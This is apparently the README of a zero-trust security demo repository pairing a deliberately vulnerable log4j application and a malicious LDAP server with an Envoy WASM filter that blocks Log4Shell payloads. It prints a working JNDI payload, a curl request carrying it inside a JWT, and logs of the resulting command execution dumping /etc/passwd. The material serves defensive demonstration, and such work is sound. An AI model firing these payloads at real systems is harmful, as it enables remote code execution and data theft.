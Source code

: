 # ZTA and DevSecOps for Cloud Native Applications

This repository contains the materials for the *Service Mesh as the Security Kernel for Zero Trust Platforms*
demo presented at the NIST ZTA conference 2022.

## Contents

This demo contains three main applications:

* [log4shell-ldap](log4shell-ldap): A malicious LDAP server that can be used to exploit the `Log4Shell` CVEs.
* [vulnerable-app](vulnerable-app): An application that uses an old and insecure Java runtime and a vulnerable
   version of the `log4j` library.
* [wasm-patch](wasm-patch): An [Envoy](https://www.envoyproxy.io/) [WASM extension](https://github.com/proxy-wasm/spec) written
  in Go using the [proxy-wasm-go-sdk](https://github.com/tetratelabs/proxy-wasm-go-sdk) that inspects requests and
  rejects those that contain `Log4Shell` payloads.

See the [hacking](#hacking) section for details about how to customize them.

## Build requirements

* [Go 1.17](https://go.dev/dl/) or higher.
* [TinyGo](https://tinygo.org/) to compile and build the WASM plugin.

## Hacking

The behaviour of the applications can be customized by modifying the [GreetingsServlet.java](vulnerable-app/src/main/java/io/tetrate/log4shell/vulnerable/GreetingsServlet.java)
(vulnerable application) and the [Log4shellExploit.java](log4shell-ldap/exploit/src/main/java/io/tetrate/log4shell/exploit/Log4shellExploit.java) (exploit).

The current implementation of the exploit reads malicious LDAP lookup strings and parses a Base64-encoded command that is then executed. For example, the
malicious string `"${jndi:ldap://log4shell:1389/exec/Y2F0IC9ldGMvcGFzc3dkCg==}"` will instruct the exploit to execute a `cat /etc/passwd` command. The vulnerable
application logs the value of the `subject` claim in a JWT token, so if the malicious payload is set there, the exploit will be triggered.

### Running applications locally

The three applications can be easily run locally, although you won't be able to try all the [Istio](https://istio.io/)
features showcased in the demo. However, it is enough to get the applications running and to be able to play with them
and the WASM plugin.

You can start the applications locally with:

```
make -C wasm-patch clean compile  # docker-compose needs the WASM binary to have been compiled
docker-compose build
docker-compose up
```

This will build the necessary images and start all of them. The vulnerable application is exposed as follows:

* `http://localhost:8080` - Direct access to the vulnerable application.
* `http://localhost:8000` - Access through Envoy, which includes filtering with the WASM plugin.

To test it, you can send a request to the application or Envoy proxy with a JWT Bearer token in the Authorization header.
The contents of the "sub" claim in the provided token will trigger the attack vector, if present. For example:

**Executing the requests directly against the vulnerable app**

```
$ curl http://localhost:8080
Welcome, anonymous!

$ curl http://localhost:8080 -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJPbmxpbmUgSldUIEJ1aWxkZXIiLCJpYXQiOjE2NDI1ODI2MjIsImV4cCI6MTY3NDExODYyMiwiYXVkIjoid3d3LmV4YW1wbGUuY29tIiwic3ViIjoiJHtqbmRpOmxkYXA6Ly9sb2c0c2hlbGw6MTM4OS9leGVjL1kyRjBJQzlsZEdNdmNHRnpjM2RrQ2c9PX0ifQ.ktEyOh8O3QMH6amqZtPsYHjtDeFVXmgKHLt-s0t2ckw"
Welcome, ${jndi:ldap://log4shell:1389/exec/Y2F0IC9ldGMvcGFzc3dkCg==}!
```
We can see that the exploit was triggered by inspecting the vulnerable app logs:
```
log4shell_1   | received request from 192.168.160.3:37650
log4shell_1   | delivering malicious LDAP payload: {cn=pwned, exec/Y2F0IC9ldGMvcGFzc3dkCg== [{cn [pwned]} {javaClassName [io.tetrate.log4shell.exploit.Log4shellExploit]} {javaCodeBase [http://log4shell:3000/log4shell-exploit-1.0-SNAPSHOT.jar]} {objectclass [javaNamingReference]} {javaFactory [io.tetrate.log4shell.exploit.Log4shellExploit]}]}
vulnerable_1  | /!\ /!\ /!\ You have been pwned!
vulnerable_1  | /!\ /!\ /!\ RCE exploit loaded
vulnerable_1  | /!\ /!\ /!\ Executing: cat /etc/passwd
vulnerable_1  |
vulnerable_1  | root:x:0:0:root:/root:/bin/bash
vulnerable_1  | daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
vulnerable_1  | bin:x:2:2:bin:/bin:/usr/sbin/nologin
vulnerable_1  | sys:x:3:3:sys:/dev:/usr/sbin/nologin
vulnerable_1  | sync:x:4:65534:sync:/bin:/bin/sync
vulnerable_1  | games:x:5:60:games:/usr/games:/usr/sbin/nologin
vulnerable_1  | man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
vulnerable_1  | lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
vulnerable_1  | mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
vulnerable_1  | news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
vulnerable_1  | uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
vulnerable_1  | proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
vulnerable_1  | www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
vulnerable_1  | backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
vulnerable_1  | list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
vulnerable_1  | irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
vulnerable_1  | gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
vulnerable_1  | nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
vulnerable_1  | systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
vulnerable_1  | systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
vulnerable_1  | systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
vulnerable_1  | systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
vulnerable_1  | messagebus:x:104:108::/var/run/dbus:/bin/false
vulnerable_1  |
vulnerable_1  | 13:40:09.410 [qtp1316061703-12] INFO  io.tetrate.log4shell.vulnerable.GreetingsServlet - welcoming user: pwned!
```

**Executing the requests against the Envoy proxy**

When running the requests through the proxy we can see the access being denied as the traffic is filtered by the WASM plugin.

```
$ curl http://localhost:8000
Welcome, anonymous!

$ curl http://localhost:8000 -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJPbmxpbmUgSldUIEJ1aWxkZXIiLCJpYXQiOjE2NDI1ODI2MjIsImV4cCI6MTY3NDExODYyMiwiYXVkIjoid3d3LmV4YW1wbGUuY29tIiwic3ViIjoiJHtqbmRpOmxkYXA6Ly9sb2c0c2hlbGw6MTM4OS9leGVjL1kyRjBJQzlsZEdNdmNHRnpjM2RrQ2c9PX0ifQ.ktEyOh8O3QMH6amqZtPsYHjtDeFVXmgKHLt-s0t2ckw"
Access Denied
```

## ZTA demo step by step

If you want to play with the demo, you can follow the step by step guide in the [DEMO.md](DEMO.md) file.
